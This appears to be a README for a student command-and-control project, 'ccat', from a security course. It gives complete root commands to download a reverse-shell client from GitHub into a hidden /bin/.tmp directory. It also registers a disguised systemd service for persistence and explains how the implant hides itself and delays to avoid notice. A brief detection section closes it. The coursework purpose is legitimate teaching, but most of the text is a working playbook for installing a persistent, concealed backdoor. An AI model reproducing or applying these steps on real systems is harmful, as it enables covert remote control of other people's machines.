 # C2 Project Submission
## Installation
### Client (Compromised)
On the client (compromised week 4) machine, run the following as root:
```shell
# Install pip
curl -L https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py
python get-pip.py
# Install necessary packages
pip install pycryptodome
# Save scripts in hidden directory
cd /bin && mkdir .tmp && cd .tmp
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/configuration.py -o configuration.py
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/client.py -o client.py
echo "python /bin/.tmp/client.py" > ccat.sh
# Add to bootup
vi /etc/systemd/system/ccat.service
```
in the vi editor, paste the following:
```
[Unit]
Description=Definitely not ccat malware

Wants=network.target
After=network-online.target

[Service]
Type=simple
ExecStart=/bin/.tmp/ccat.sh
Restart=on-failure
RestartSec=30
KillMode=process
```
and then in the shell again, run
```shell
chmod 640 /etc/systemd/system/ccat.service
systemctl daemon-reload  # You can use user/pass gg for root
systemctl enable ccat  # Have ccat service run at launch!
```

### Server (Attacker)
And likewise, run the following on the attacking machine:
```shell
# Install necessary packages
pip install pycryptodome
# Save scripts
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/configuration.py -o configuration.py
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/server.py -o server.py
```

## Testing
To test that ccat works, run the server from the command machine (`python server.py`)
and then run the client process in the background (`python client.py &`) on the compromised machine,
or just reboot it after the installation process. To change configuration
options like your IP address, see the first two lines of `configuration.py` and
make sure you change this in both the *client and server* copies! :) For example, I had to set the server address as 10.0.2.4.

Alternatively, after setting up configuations, you can just run
`sudo systemctl start ccat`.

One way of figuring out the server's IP is by running `ifconfig`
from the attacking (server) machine (unless you're just running it as the hostOS,
which is normally 10.0.0.2 for VirtualBox).

One thing to note is that if you want to run a process in another directory, you
need to run *cd /absolute/path/name && process_name*. That is, you can't change
the current working directory of the shell (because each one is run as another
process).[^1] Also, since the messages have padding to avoid a MITM attack,
the commands have to be fairly small (eg. running even `cd /bin && ls` could
fail because it's too long).

[^1]: So you can technically change the working directory, but it'll be the
working directory of the currently running process. So the next command you run
won't be affected. If I had more time, I could flesh this out using the os.cwd()
function.

## Requirement Completion
### Remote shell access to host
ccat uses the `subprocess` python library with the `shell=True` to run commands
sent from the server as shell commands.

### Persist across reboots
ccat is safed to disk, so it'll remain after reboots. It's added to `systmctl`
to run during startup, as well (see client installation instructions). So it'll
run after the system boots up again.

### Configuration for where to get commands
See configuration.py.

### Authenticate communication
Using the pycryptodome library, I used RSA (asymmetric) encryption to encrypt
communication between the server and client. If there were more clients, I'd
make a file like
```json
{
    "0.0.0.3": "password1",
    "0.0.0.4": "password2",
    "0.0.0.5": "password3",
    "0.0.0.6": "password4"
}
```
for the server to know which password to send to each client. Each client would
have a hardcoded password to look for to grant access to the server.

### Attempt to hide itself
By saving the code in a directory starting with ".", users won't see the
directory in a GUI or with `ls` (unless they run it with the `-a` flag).

I also have the client script sleep for ten seconds before running so that
there's no immediate effect that the user could look for (if this is annoying
when grading, comment out the line with "UNCOMMENT IF THIS TAKES TOO LONG WHILE
GRADING" next to it in client.py).

I initially tried to do this with process injection (you can look at my GitHub
commits for proof), but I found that using Cython to get a C version of the
python code and then trying to link it myself was too difficult. I was so close,
if not for that darned .so shared object file. :(

## Extra Credit: Detecting ccat
```shell
ps -U root -u root u | grep client.py
```
If this prints something (other than the grep process), ccat is running! If not,
you're safe.

Some other ideas include
1. Looking at network traffic with Wireshark
2. Recursively searching the entire filesystem for ccat (via `find -R client.py` or something)
3. Look at the system journal via `journalctl`

## Resources & Credit
I used [this](https://medium.com/@songchai.d01/how-to-create-a-reverse-shell-in-python-41fe75d88521)
Medium article to learn how to use the sockets, subprocess, and sys python libraries for building a
reverse shell. I found similar resources [here](https://medium.com/geekculture/breaking-down-a-python-reverse-shell-one-liner-752041733e5f)
and [here](https://stackoverflow.com/questions/28411960/execute-a-command-on-remote-machine-in-python/28413657#28413657),
as well as the [official docs](https://docs.python.org/2.6/library/socket.html).
